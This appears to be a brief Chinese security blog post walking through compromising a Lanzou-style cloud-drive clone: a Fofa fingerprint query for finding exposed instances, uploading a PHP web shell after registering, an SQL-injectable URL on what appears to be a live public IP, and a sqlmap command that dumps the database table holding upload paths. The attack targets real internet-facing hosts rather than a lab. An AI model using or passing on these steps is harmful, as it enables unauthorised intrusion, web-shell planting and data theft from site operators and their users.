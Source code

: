 逆天 看了多逛逛安全论坛还是有很多有意思的东西的😄

Fofa:`"assets/picture/header-mobile.png"`

注册登录 然后传一个php shell
![img](仿蓝奏网盘(城通)sql注入+文件上传getshell/images/image.png)

接下来就是找路径 应该是能得到源码然后审计
这里有sql注入漏洞
`http://42.48.249.206:8009/file/list?&folder_id=0&search=&rows=20&page=1`

带上cookie sqlmap一把梭
`sqlmap -r post.txt --batch -D pan -T  sk_stores --dump`

这样就能找到我们上传的php shell的路径 
(由于找的这云盘数据太多 懒得爆了...)
